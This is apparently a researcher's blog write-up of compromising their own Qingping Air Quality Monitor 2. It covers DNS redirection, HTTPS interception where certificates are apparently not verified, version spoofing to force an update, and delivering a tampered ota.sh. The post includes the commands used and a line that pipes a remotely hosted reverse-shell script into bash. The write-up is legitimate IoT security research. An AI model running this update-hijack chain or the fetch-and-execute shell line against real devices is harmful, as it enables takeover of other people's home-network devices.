 ```yaml
---
layout: single
title: Hacking the Qingping Air Quality Monitor 2
date: 2025-08-13
classes: wide
header:
  teaser: /assets/images/qingping/1.jpeg
tags:
  - Exploit-Dev
  - Penetration Testing
  - IoT
---
```


I recently acquired a [Qingping Air Quality Monitor 2](https://www.qingping.co/air-monitor-2/overview) for monitoring indoor air quality. While I’ve been happy with the product, I’m inherently distrustful of IoT devices, especially those that connect to my home’s Wi-Fi network. So, I set out to investigate its functionality with the end goal of obtaining some form of command execution.

## Recon

Running a basic port scan on the device revealed that only port 53 was open, running `dnsmasq 2.85`:

![](/assets/images/qingping/2.png)

A quick search for this version shows a [2022 CVE](https://www.cvedetails.com/cve/CVE-2022-0934/) for a denial-of-service bug. However, this wasn’t of interest here.

Next, I wanted to see what web requests the device makes when connected to the internet. On my home network I use NextDNS, which offers functionality similar to Pihole (though any DNS logging solution would work). Once connected to Wi-Fi, the Qingping device sent several requests to the `*.cleargrass.com` domain.

As a web pentester, I immediately wanted to intercept and inspect these HTTP requests. To do this, I needed to MITM the device’s traffic. Fortunately, NextDNS (or Pihole) lets you add custom DNS entries, so I could map `*.cleargrass.com` to my laptop’s IP address and redirect traffic there. If your network doesn’t have this feature, [bettercap](https://www.bettercap.org/) can perform DNS spoofing.

![](/assets/images/qingping/3.png)

Starting a netcat listener on port 443 confirmed that HTTPS traffic for `*.cleargrass.com` now hit my laptop. The next challenge was intercepting the HTTPS requests. For this, I quickly vibe coded a small Python HTTPS server that proxies requests to Burp Suite on `127.0.0.1:8080`. This script is available [here](/assets/code/qingping/https_tap.py)

First, generate an SSL certificate:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"
```

Next, run the HTTPS server script with Burp Suite listening. 

```
sudo python3 https_tap.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem
```

![](/assets/images/qingping/4.png)

Great, we are successfully able to intercept HTTP requests generated by the Qingping device. 

Interestingly, the device continues to function normally while being MITM'd, which potentially indicates that SSL certificate verification is disabled. One would expect that some sort of certificate pinning would be enforced to avoid this scenario.

Note: Since we’ve remapped DNS for `*.cleargrass.com`, you’ll need to restore correct DNS resolution on your laptop so it can forward requests. One way is to temporarily set your DNS to `8.8.8.8` instead of NextDNS/Pihole. Alternatively, set up an SSH SOCKS proxy and configure Burp Suite to use it.

## System Update Functionality

With minimal exposed ports, the system update mechanism seemed the most promising attack surface. Within the device Settings > System Update, one can instruct the device to check for updates. The relevant HTTP request and response are shown below (note: at the time of writing this software version `4.5.6_0156` was the latest stable version).

![](/assets/images/qingping/5.png)

However, if we modify the outbound HTTP request to advertise a lower version, let's say `4.5.6_0155`, the web server responds with instructions to update the device.

![](/assets/images/qingping/6.png)

The HTTP response contains some key information. It tells the device a new version is available, it provides the software update's MD5 hash, the software update's URL location, and a brief description of the update. The next logical step is to inspect this software update package. The device then issues a request to the URL described in the prior HTTP request. This request and response are shown below:


![](/assets/images/qingping/8.png)

One interesting thing to note is that the ETag header contains the MD5 hash of the software update, which is also included in the GET request path.

Downloading and extracting the ZIP file reveals a certificate, several Bash scripts, another ZIP file, and a Linux ELF binary. Given that the device reboots after updating, the `ota.sh` script is likely executed during the update process.



![](/assets/images/qingping/7.png)

At this point, the attack path is clear: intercept the update process and deliver a modified package.

## Crafting our Malicious Update

As previously discussed, `ota.sh` seems like a good candidate to insert our own Bash commands. Let's try a `curl` command to a web server we control to see if these commands will be execution upon updating the software.

![](/assets/images/qingping/9.png)

Next we will also need to update the file `md5` with the new MD5 hash of `ota.sh`, below is a Bash command to achieve this:
```bash
rm -f md5
for f in *; do
  [ "$f" = "md5" ] && continue
  [ -f "$f" ] || continue
  md5 -q "$f" | awk -v n="$f" '{printf "%s  %s\n",$1,n}' >> md5
done
```

Next we can zip everything up with a zip command: 
```
zip -X -9 -q -r ../malicious_update.zip .
```

Great, now we have crafted a malicious software update with an added Bash command. Once we supply this update to the device we should see a GET request to our web server.

## Delivering the Malicious Update
Since we can intercept HTTP requests and responses to the device, it is trivial to supply our own .zip file in the HTTP response to the update request. However, as discussed above there are a few additional pieces of information required in the HTTP response headers, such as the MD5 hash. To assist with this, I once again vibe coded a brief script that handles all the math and delivers the proper response.

The attack flow:
1. DNS spoof the `*.cleargrass.com` domain
2. Respond to the check update request with a new update
3. Replace the system update zip file with our own malicious zip

Let's see it in action. If all goes well we should see a curl request on our web server to `/qingping`. Starting the [updated python HTTPS server](/assets/code/qingping/zip_supply.py):
```
 sudo python3 zip_supply.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem --zip-file ../malicious_update.zip
```

 On the device, initiate a system update. We can see the request come through to our fake update server.

 ![](/assets/images/qingping/11.png)

 After a few moments we see the HTTP request to our web server. Nice! 

 ![](/assets/images/qingping/12.png)

From here, obtaining a reverse shell is trivial. I personally had success modifying the shell command in `ota.sh` to `curl https://poc.cinzinga.com/qingping | bash` where the file `qingping` hosted a reverse shell.

 ![](/assets/images/qingping/13.png)

 ## Further Research

The Qingping Air Quality Monitor also integrates with a mobile app, which could be another interesting target. The device’s firmware contains numerous binaries that manage its functions. Analyzing these could uncover deeper vulnerabilities. 